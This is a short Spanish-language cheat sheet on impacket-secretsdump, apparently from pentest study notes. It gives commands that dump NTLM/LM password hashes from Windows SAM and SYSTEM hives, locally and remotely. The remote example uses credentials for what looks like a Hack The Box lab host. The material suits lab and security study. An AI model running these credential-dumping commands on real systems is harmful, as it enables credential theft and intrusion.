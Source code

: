 #impacket-secretsdump

-----

Extrae credenciales de sistemas Windows volcando hashes de contraseñas de New Technology LAN Manager (NTLM) y LAN Manager (LM), incluso desde la memoria o los subárboles del registro, lo que ayuda al robo de credenciales.

-----
# Comando

## Ejemplo 1

```shell
impacket-secretsdump -sam sam -system system LOCAL
Ejemplo impacket-secretsdump -sam sam -system system LOCAL
```
*Parametros:*
	`-sam` Es para especificar el formato del archivo
	`system` Es para indicar el archivo system que tiene la encriptacion
	LOCAL` Es para indicar que es a nivel local

## Ejemplo 2

```shell
secretsdump.py 'Dominio'/'Usuario':'Contraseña'@'Host'
Ejemplo:secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb'
```
